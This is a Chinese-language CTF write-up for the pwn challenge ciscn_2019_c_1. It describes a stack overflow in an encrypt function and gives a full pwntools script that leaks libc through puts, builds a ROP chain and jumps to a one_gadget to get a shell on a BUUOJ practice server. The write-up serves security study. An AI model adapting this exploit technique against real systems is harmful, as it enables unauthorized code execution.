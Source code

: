 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      ciscn_2019_c_1 WriteUp				# 标题 
subtitle:   Eutopia's Blog #副标题
date:       2023-10-23 				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-3.jpg 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - 教程
    - CTF
    - PWN
    - ROP攻击
    - libc泄漏
---
```


# ciscn_2019_c_1 WriteUp

## 考点

- libc版本泄漏
- ROP攻击
- onegadget使用

## 解题过程

1. 使用`checksec`工具进行查看，程序为64位，NX保护

![checksec](/_posts/2023-10-23-ciscn_2019_c_1/images/checksec.png)

2. 使用ida工具反编译。

`main`:

![main](images\main.png)

`encrypt`：

![encrypt](images\encrypt.png)

​		可以看出程序功能为对输入字符串进行加密，而加密`encrypt`函数中的get存在栈溢出漏洞。

3. 由于在程序中找不到`system`函数和`/bin/sh`字符串，所以需要进行ROP攻击，泄漏其libc地址，使用onegadget工具直接获取shell。
4. 使用ROPgadget工具获取泄漏libc地址所需的指令地址(`pop rdi`; )，然后获取程序中put_got表和put_plt表地址，执行栈溢出payload构造如下

```python
payload = flat(b"\0", b"a"*(0x50-1), 0x0, pop_rdi, puts_got, puts_plt, encrypt)
```

​		注意最后需要加上encrypt函数使程序重新回到漏洞函数处。

5. 获取libc基址后，再次进入漏洞函数，然后执行onegadget指令。获取shell。

## 结果

**构造脚本如下**

`python`：

```python
from pwn import *

context(arch="amd64", log_level="debug")
# p = process("./ciscn_2019_c_1")
p = remote("node4.buuoj.cn", 26936)

one_gadget = 0x10a38c  # 0x4f322, 0x4f2c5, 0x10a38c
pop_rdi = 0x400c83
encrypt = 0x4009A0

elf = ELF('./ciscn_2019_c_1')
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

libc = ELF('./libc-2.27.so')
puts_offset = libc.symbols['puts']

payload = flat(b"\0", b"a"*(0x50-1), 0x0, pop_rdi, puts_got, puts_plt, encrypt)
# gdb.attach(p, 'b *0x4009DD')
p.sendlineafter(b"Input your choice!", b'1')
p.sendlineafter(b'Input your Plaintext to be encrypted', payload)
p.recvuntil("\nCiphertext\n\n")
puts_addr = p.recv(6)
puts_addr = u64(puts_addr.ljust(8, b'\x00'))
success(hex(puts_addr))
libc_addr = puts_addr - puts_offset
success(hex(libc_addr))

one_gadget = libc_addr + one_gadget

payload = flat(b"\0", b'a'*(0x50-1), 0x0, one_gadget)
p.sendlineafter(b"Input your Plaintext to be encrypted", payload)


p.interactive()
```

成功获取flag

![result](images\result.png)
